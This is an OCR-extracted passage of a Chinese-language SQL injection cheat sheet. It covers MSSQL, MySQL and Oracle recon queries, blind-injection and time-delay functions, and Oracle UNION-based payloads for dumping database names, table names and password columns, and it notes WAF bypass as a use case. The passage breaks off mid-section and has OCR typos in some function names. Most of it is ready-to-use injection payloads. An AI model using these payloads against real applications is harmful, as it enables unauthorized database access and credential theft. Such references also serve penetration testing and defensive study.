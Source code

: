 内容|MSSQL|MYSQL|ORACLE
|--|--|--|--
查看版本|select @@version|select @@version;select version()|Select banner from v$version;
当前用户|select system_users;select suer_sname();select user;select loginname from master..sysprocesses WHERE spid =@@SPID;|select user();select system_user();|Select user from dual
列出用户|select name from master..syslogins;|select user from mysql.user;|Select username from all_users ORDER BY username;Select username from all_users;
当前库|select DB_NAME();|select database();|Select global_name from global_name;
列出数据库|select name from master..sysdatabases;|select schema_name from information_schema.schemata;|Select ower,table_name from all_users;
当前用户权限|select is_srvolemenber('sysadmin');|select grantee, privilege_type,is_grantable from information schema.user privileges;|Select * from user role_privs;Select * from user_sys_privs;
服务器主机名|select @@servername;|/|Select sys_context('USERENV','HOST') from dual;

###3.5  盲注函数

数据|MSSQL|Mysql|oracle
|--|--|--
字符串长度|LEN()|LENGTH()|LENGTH()
从给定字符串中提取子串|SUBSTRING(string,offset,length)|SELECT SUBSTR(string,offset,length)|SELECT SUBSTR(string,offset,length) From dual
字符串('ABC')不带单引号的表示方式|SELECT CHAR(0X41)+CHAR(0X42)+CHAR(0X43)|Select char(65,66,67)|Select chr(65)||chr(66)+chr(67) from dual
触发延时|WAITFOR DELAY '0:0:9'|BENCHMARK(1000000,MD5("HACK"))Sleep(10)|BEGIN DBMS_LOCK.SLEEP(5);END; --(仅PL/SQL注入)UTL_INADDR.get_host_name()UTL_INADDR.get_host_address()UTL_HTTP.REQUEST()
IF语句|If (1=1) select 'A' else select 'B'|SELECT if(1=1,'A','B')|/

##4   手工注入
###4.1  应用场景
1.快速验证（概念性证明）

2.工具跑不出来了

a)   的确是注入，但不出数据

b)   特征不规律，挖掘规律，定制脚本

3.绕过过滤

a)   有WAF，手工注入

b)   有过滤，搞绕过

**盲注类**

###4.2  常用语句

Oracle

```
oder by N
# 爆出第一个数据库名

and 1=2 union select 1,2,(select banner from sys.v_ where rownum=1),4,5,6 from dual

# 依次爆出所有数据库名,假设第一个库名为first_dbname

and 1=2 union select 1,2,(select owner from all_tables where rownum=1 and owner<>'first_dbname'),4,5,6 from dual

爆出表名

and 1=2 union select 1,2,(select table_name from user_tables where rownum=1),4,5,6 from dual

同理,同爆出下一个数据库类似爆出下一个表名就不说了,但是必须注意表名用大写或者表名大写的十六进制代码。
有时候我们只想要某个数据库中含密码字段的表名,采用模糊查询语句，如下：
and (select column_name from user_tab_columns where column_name like '%25pass%25')<0

爆出表tablename中的第一个字段名

```
